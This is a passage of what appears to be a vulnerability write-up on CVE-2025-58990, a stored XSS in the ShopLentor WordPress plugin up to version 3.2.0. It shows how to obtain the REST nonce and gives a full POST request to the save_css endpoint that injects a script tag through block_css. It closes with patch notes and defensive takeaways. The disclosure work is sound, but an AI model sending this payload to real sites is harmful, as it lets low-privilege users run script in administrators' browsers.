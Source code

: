 👉 Missing **X-WP-Nonce** header for user authentication. Open the HTML source (<kbd>Ctrl</kbd>+<kbd>U</kbd>) of the post edit page:

```
view-source:http://localhost/wp-admin/post.php?post=<post_id>&action=edit
```

Search for `wpApiSettings` and get the `nonce` value.

![wpApiSettings](images/posts/2025-09-17-CVE-2025-58990/api_search.png)

Send the request with **X-WP-Nonce** set:

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
X-WP-Nonce: f79ec79e4b
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Preview post**

![Preview](images/posts/2025-09-17-CVE-2025-58990/preview.png)

👉 XSS succeeds. Inspect to see how the code is modified.

**View source code**

![Code](images/posts/2025-09-17-CVE-2025-58990/code.png)

## Conclusion

The **CVE-2025-58990** vulnerability in **ShopLentor <= 3.2.0** allows **contributors** to inject malicious CSS leading to Stored XSS when admins/authors preview or view posts. The **3.2.1** patch adds permission checks and CSS sanitization, preventing exploitation.

**Key takeaways**:

* Always combine **permission checks** and **data sanitization** when handling user input.
* Low-level roles (like **contributors**) can still be attack vectors if APIs are not properly secured.
* **Stored XSS** in WordPress typically occurs when data is saved in DB/file and rendered inline without sanitization.
* Keeping plugins updated is the simplest and most effective defense.

---

## References
